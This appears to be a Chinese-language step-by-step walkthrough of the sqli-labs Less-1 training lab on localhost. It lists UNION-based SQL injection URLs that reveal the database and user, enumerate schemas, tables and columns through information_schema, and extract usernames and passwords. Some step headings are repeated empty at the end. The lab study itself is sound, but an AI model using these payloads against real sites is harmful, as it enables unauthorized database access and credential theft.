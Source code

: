 <h3>**第四步：查询数据库的基本信息**</h3>
在第2，3列输入需要查询的命令
http://localhost:8080/sqli-labs-master/Less-1/<br/> ?id=-1' union select 1,database(),user() --+
报错回显


<hr/>

<h3>**第五步：爆数据库名**</h3>

http://localhost:8080/sqli-labs-master/Less-1/<br/> ?id=-1' union select 1,2,group_concat(schema_name) from information_schema.schemata --+


<hr/>


<h3>**第六步：爆数据库表名**</h3>

http://localhost:8080/sqli-labs-master/Less-1/<br/> ?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='security' --+

后面的表名'security'也可以直接用database() 
是一样的效果
http://localhost:8080/sqli-labs-master/Less-1/<br/> ?id=-1' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+


<hr/>


<h3>**第七步：爆字段名**</h3>

http://localhost:8080/sqli-labs-master/Less-1/<br/> ?id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name='users' --+

<hr/>


<h3>**第八步：爆数据**</h3>
http://localhost:8080/sqli-labs-master/Less-1/<br/> ?id=-1' union select 1,username,password from users where id=2 --+




### **第一步：注入点测试**

---


### **第三步：判断回显位**

---


### **第五步：爆数据库名**

---


### **第七步：爆字段名**

---